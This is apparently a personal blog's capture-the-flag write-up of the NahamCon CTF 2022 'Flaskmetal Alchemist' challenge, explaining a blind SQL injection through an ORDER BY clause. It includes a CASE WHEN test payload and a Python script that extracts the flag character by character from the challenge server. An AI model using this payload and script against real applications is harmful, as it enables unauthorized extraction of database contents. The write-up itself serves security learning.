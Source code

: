 
---
title: NahamCon CTF 2022 - Blind SQLi
# Summary for listings and search engines
summary: Medium Web Challenge Writeup 
# Link this post with a project
# projects: []

# Date published
date: "2022-05-01:17:00"

# Date updated
#lastmod: "2020-12-13T00:00:00Z"

# Is this an unpublished draft?
#draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
 
 
 # placement: 2
  #preview_only: false

authors:
- Wassila Chtioui

tags:
- Blind SQLi
- Web Exploitation
- CTF Write-up
- Flaskmetal Alchemist

categories:
- Web
- CTF
- SQLi
---


# NahamCon CTF 2022
## _Blind SQL Injection_

### Introduction 
After spending the last month learning about each vulnerability and practising through labs. I had the oppportunity to evalute what I've leant so far through **_NahamCon CTF_** along with that my team **_Arr3stY0u_**.

I mostly enjoyed a Blind SQL Injection task so I thought why not sharing a writeup. 

### Flaskmetal Alchemist - 168 points  - 260 Solves (medium)

![alt text](https://i.imgur.com/PfXdjUZ.png)

The website contained a search bar having a Sort By drop-down list with 3 options: Name, Symbol and Atomic Number. **SQL Injection.. is it you ?**

I took a look at the source code provided. 

![alt text](https://i.imgur.com/f2s7lit.png)

Here, the most interesting line is :

``` 
metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
``` 

After some google research, we can understand through the previous line of code that the injection point is the ORDER_BY CLAUSE since it takes the result of the text() function - _which allows us to excecute SQL statements_ - as argument.  
Using burpsuite, it is possible to intercept the request and change the post parameters. 

First, let's check our methodology.
Knowing that we control the ORDER_BY CLAUSE, we can trigger any SQL Statement we want to be executed. 
To verify this, I used the following payload:

``` 
search=Li&order=(SELECT (CASE WHEN (1=1) THEN atomic_number else name END)); 
```

##### PS: I tried using the IF statement but it didn't work since it is only executed in the beggining of a query. Fortunately, "CASE" has the same function.

* **When true: the table is ordered by Atomic Number ==>** 

![alt text](https://i.imgur.com/sRAz5ba.png)

* **When false: the table is ordered by Name ==>**

![alt text](https://i.imgur.com/rg79P2L.png)

At this level, we made sure that according to the order of the elements, we can figure out if the condition we set in the CASE Statement is True or False. 
This comes to say that, in order to exfiltrate the flag, we can compare each character based on the True/False method.
To do so, we used the SUBSTR() function to parse the string character by character. We were also given in the source code the table and the column name where we can find the flag. 

Therefore, in order to automate this, I wrote the following script:
```
import requests, time

s = requests.Session()
dictionary = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','_','{','}']
URL = "http://challenge.nahamcon.com:31148/"
final = ""
for i in range(1,30):
        for x in dictionary:
                exploit = "(SELECT (CASE WHEN (SUBSTR((SELECT flag FROM flag)," + str(i) + ",1) = '" + x + "')THEN atomic_number else name END));"
                #print exploit
                data = {'search' : 'Li' , 'order' : exploit }
                r = s.post(url = URL , data = data)
                #print(r.text)
                #print(r.text.index("Li"))
                if r.text.index("Li") == 2657 :
                        final = final + x
                        print "Leaking contents: " + final
                        break

```

And now we go eat something while our script is running ! 

![alt text](https://i.imgur.com/UvP81lP.png)

Aaand VOILAA ! 

### Conclusion
To sum up, this task sharpened my scripting skills; I also had the opportunity to dive in more into SQL Injection types. I congratulate the author and I look forward to the next edition.
